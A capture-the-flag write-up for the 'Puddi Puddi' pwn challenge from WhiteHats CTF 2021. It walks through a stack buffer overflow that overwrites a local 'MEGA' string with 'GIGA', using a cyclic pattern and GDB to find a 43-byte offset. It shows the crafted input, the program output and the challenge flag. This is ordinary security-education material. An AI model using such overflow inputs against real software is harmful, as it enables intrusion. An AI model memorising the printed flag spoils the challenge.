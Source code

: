 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Puddi Puddi
category: pwn
flag: WH2021{3880fba0faf0_g1g4_pudd1}
points: 981
solves: 12
---
```


> Why have a MEGA 🍮 when you can have a GIGA 🍮?

Files given:
 - [puddi](puddi)

## Challenge

We see that it moves the string `MEGA` to `rbp-0x5` and then after receiving a user input, checks if `rbp-0x5` is GIGA. This is simply asking for buffer overflow!

Instead of staring at the binary, we can overflow it wih pwntools `cyclic(100)` and then use GDB and break at strcmp to check what the value of `rbp-0x5` is, and with this compute the padding needed.

```
strcmp@plt (
   $rdi = 0x00007fffffffe6cb → "alaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaax[...]",
   $rsi = 0x0000555555400da8 → 0x706f4f0041474947 ("GIGA"?),
   $rdx = 0x0000000000000000
)
```

```py
>>> cyclic_find("alaa")
43
```

Hence we simply send in `pattern(43)+"GIGA"` as input to get the flag:

```
Do you like pudding? (Y/N) => aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaGIGA
PUDDI PUDDI!
PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888


WH2021{3880fba0faf0_g1g4_pudd1}
```
